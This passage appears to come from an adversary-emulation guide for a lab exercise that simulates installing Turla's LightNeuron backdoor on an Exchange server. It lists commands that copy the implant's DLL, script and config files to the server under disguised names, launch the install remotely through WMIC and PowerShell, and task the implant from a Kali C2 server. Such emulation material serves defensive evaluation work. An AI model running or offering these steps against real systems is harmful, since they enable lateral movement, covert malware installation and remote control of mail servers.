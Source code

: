 * Wait 1 minute before copying the next file (LightNeuron companion DLL):
```bat
copy C:\Windows\System32\mtxcli.dll "\\drebule\C$\Program Files\Microsoft\Exchange Server\v15\bin\exdbdata.dll"
```

* Wait 1 minute before copying the next file (installation script):
```bat
copy C:\Windows\System32\msiex.ps1 \\drebule\C$\Windows\System32\msiex.ps1
```

* Wait 1 minute before copying the rules file:
```bat
copy C:\Windows\System32\wdr.rules.xml \\drebule\C$\Windows\ServiceProfiles\NetworkService\AppData\Local\Temp\msmdat.xml
```

* Wait 1 minute before copying the last config file:
```bat
copy C:\Windows\System32\perfe009.dat "\\drebule\C$\Program Files\Microsoft\Exchange Server\v15\bin\winmail.dat"
```

* Wait 1 minute and then run the following command in the elevated cmd prompt to install LightNeuron remotely using WMI and Powershell:
```
wmic /node:drebule /privileges:enable /output:STDOUT process call create "cmd.exe /c powershell.exe -File C:\Windows\System32\msiex.ps1 > C:\Windows\Temp\msiexinstallation.log 2>&1"
```
:heavy_exclamation_mark: Verify that the WMIC output shows a `ReturnValue` of 0.

* Check your RDP session to `drebule (10.100.30.203)` to look for any indicators of blocked activity.

:arrow_right: Return to your RDP session to `uosis (10.100.40.102)` as `ZilvinasAdmin`.

* Wait 1 minute and then run the following command in the elevated cmd prompt to check the installation log for any errors:
```bat
type \\drebule\C$\Windows\Temp\msiexinstallation.log
```
:heavy_exclamation_mark: If the output contains any errors, notify your lead.

:arrow_right: Return to your Kali C2 server

* From the Kali C2 lower terminal window, task LightNeuron to perform system
network configuration discovery:
```bash
./evalsC2client.py --set-task info@nk.local '5 | ipconfig /all'
```


* :heavy_exclamation_mark: If no response is received after 5 minutes, check
the postfix logs on the Kali server to make sure the email was intercepted and
processed correctly by LightNeuron.
  ```bash
  grep postfix /var/log/syslog
  ```
  * If there is a `reject` entry, that means the email, destined for a
  nonexistent user, was processed by the Exchange server, meaning that
  LightNeuron was either not successfully installed or is not working properly.
  